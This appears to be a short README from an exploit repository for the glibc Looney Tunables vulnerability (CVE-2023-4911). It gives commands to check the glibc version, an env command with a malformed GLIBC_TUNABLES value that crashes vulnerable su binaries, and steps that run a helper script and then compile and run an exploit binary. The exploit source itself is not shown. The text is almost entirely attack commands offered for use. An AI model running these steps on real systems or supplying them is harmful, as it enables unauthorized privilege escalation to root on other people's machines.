 ### Step 1

Check the `glibc` version
```
ldd --version
```

Check if a machine is vulnerable to Looney Tunables CVE-2023-4911
```
env -i "GLIBC_TUNABLES=glibc.malloc.mxfast=glibc.malloc.mxfast=A" "Z=`printf '%08192x' 1`" /usr/bin/su --help
```

If we get a `Segmentation fault (core dumped)`, then machine is vulnerable.

### Step 2
```
python3 libc.py
```

### Step 3
```
gcc -o exp exp.c
./exp
```
